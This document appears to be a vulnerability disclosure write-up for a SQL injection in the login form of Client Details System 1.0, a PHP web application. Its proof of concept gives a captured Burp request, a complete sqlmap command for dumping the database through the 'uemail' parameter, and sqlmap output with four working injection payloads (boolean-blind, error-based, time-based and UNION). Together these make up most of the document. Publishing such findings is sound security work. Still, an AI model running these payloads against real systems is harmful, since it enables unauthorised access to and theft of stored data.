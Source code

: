 # Client_Details_System-SQL_Injection_1
+ Exploit Title: Client_Details_System-SQL_Injection_1
+ Date: 2023-26-12
+ Exploit Author: Hamdi Sevben
+ Vendor Homepage: https://code-projects.org/client-details-system-in-php-with-source-code/
+ Software Link: https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ Version: 1.0
+ Tested on: Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ CVE: CVE-

## References: 

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'uemail' in "/clientdetails/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the User Login page: "http://localhost/clientdetails/"
+ Fill email and password.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/ HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 317
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/clientdetails/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

uemail=user@mail.com&login=LOG+IN&password=P@ass123
```

+ Use sqlmap to exploit. In sqlmap, use 'uemail' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p uemail --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: uemail (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: uemail=user@mail.com' OR NOT 6660=6660-- FlRf&login=LOG IN&password=P@ass123

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: uemail=user@mail.com' AND (SELECT 6854 FROM(SELECT COUNT(*),CONCAT(0x717a717a71,(SELECT (ELT(6854=6854,1))),0x7176627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Oxlo&login=LOG IN&password=P@ass123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uemail=user@mail.com' AND (SELECT 5335 FROM (SELECT(SLEEP(5)))qsPA)-- pwtE&login=LOG IN&password=P@ass123

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: uemail=user@mail.com' UNION ALL SELECT NULL,CONCAT(0x717a717a71,0x45575259495444506f48756469467471555975554d6f794d77677a4f50547145735052567278434f,0x7176627871),NULL,NULL,NULL,NULL,NULL-- -&login=LOG IN&password=P@ass123
---
[14:58:11] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP, PHP 8.1.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:58:11] [INFO] fetching current database
current database: 'loginsystem'
```

+ current database: `loginsystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/bfbec122-5b56-42df-beda-41dfdcaf527a)
